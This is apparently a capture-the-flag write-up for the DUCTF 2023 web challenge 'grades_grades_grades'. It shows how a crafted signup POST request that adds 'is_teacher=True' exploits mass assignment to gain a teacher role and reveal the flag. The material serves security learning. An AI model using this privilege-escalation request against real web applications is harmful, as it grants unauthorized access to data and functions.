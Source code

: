 # grades\_grades\_grades (easy)
Sign up and see those grades :D! How well did you do this year's subject? Author: donfran

https://web-grades-grades-grades-c4627b227382.2023.ductf.dev

## Files
grades\_grades\_grades.tar.gz

## Solution
The website brings us to page where we can sign up and got shown some grades. Typing in random data shows the following:
![Logged in](images/grades_grades_grades_0.png)

We can see that we got the Student Role _Student_ assigned.

Taking a look at the source code (auth.py), we can see that the site generates a JWT Token to authenticate ourself:
```python
def create_token(data):
    token = jwt.encode(data, SECRET_KEY, algorithm='HS256')
    return token

def token_value(token):
    decoded_token = jwt.decode(token, SECRET_KEY, algorithms=['HS256'])
    return decoded_token['stu_num'], decoded_token['stu_email'], decoded_token.get('is_teacher', False)

[...]
```
We have no choice to enter our role, but it seems to be generated under the key `is_teacher`.

If we look fourther we find the following function:
```python
def is_teacher_role():
    # if user isn't authed at all
    if 'auth_token' not in request.cookies:
        return False
    token = request.cookies.get('auth_token')
    try:
        data = decode_token(token)
        if data.get('is_teacher', False):
            return True
    except jwt.DecodeError:
        return False
    return False
```
This means, that if the key isn't set, it returns `False`.

In the routes.py this function is called to check our role:
```python
[...]

def signup():

    # make sure user isn't authenticated
    if is_teacher_role():
        return render_template('public.html', is_auth=True, is_teacher_role=True)
    elif is_authenticated():
        return render_template('public.html', is_auth=True)

[...]
```

Since we can't manipulate the JWT Token, because the encryption is pretty safe, we could just set the key in the POST request. With BurpSuit we can generate the following request:
```
POST /signup HTTP/2
Host: web-grades-grades-grades-c4627b227382.2023.ductf.dev

[...]

stu_num=test1&stu_email=test%40test&password=test&is_teacher=True
```
The website responses with `/?is_auth=True` and show up the already known interface, but with the _Teacher_ role:
![Teacher Role](images/grades_grades_grades_1.png)

Know we have another tab called 'GRADING TOOL'. Here we can find our flag: `DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}`
![Flag](images/grades_grades_grades_2.png)
